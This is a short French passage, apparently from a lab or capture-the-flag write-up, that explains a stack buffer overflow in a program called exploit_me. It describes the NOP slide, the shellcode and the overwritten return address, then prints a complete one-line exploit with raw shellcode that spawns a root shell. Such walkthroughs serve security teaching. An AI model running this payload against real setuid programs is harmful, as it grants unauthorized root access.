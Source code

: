 Cette faille est donc exploitable en donnant en paramètre un script en shellcode composé des éléments suivants :
* Des `\x90` (trente-cinq) qui correspondent à la commande [`nop`](https://en.wikipedia.org/wiki/NOP_(code)), qui indique d’aller à l’instruction suivante, afin de donner une marge d’erreur lorsque l’on donne l’adresse du retour ([*NOP slide*](https://en.wikipedia.org/wiki/NOP_slide)).
* Un script shellcode qui lance la commande `/bin/sh`
* Un script shellcode qui ouvre l’entrée standard afin de pouvoir écrire des instructions
* Une adresse qui va s’inscrire en lieu de l’adresse où se trouve le retour de la fonction, qui pointe vers le debut de la stack, vers les instructions `nop`.

`./exploit_me $(python -c 'print "\x90" * 35 + "\x31\xc0\x83\xec\x01\x88\x04\x24\x68\x2f\x7a\x73\x68\x68\x2f\x62\x69\x6e\x68\x2f\x75\x73\x72\x89\xe6\x50\x56\xb0\x0b\x89\xf3\x89\xe1\x31\xd2\xcd\x80\xb0\x01\x31\xdb\xcd\x80\x83\xc4\x10\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80" + "\x88\xf8\xff\xbf" * 2')`

Cette commande permettra au programme exploit_me d’ouvrir un shell avec les droits utilisateurs root.
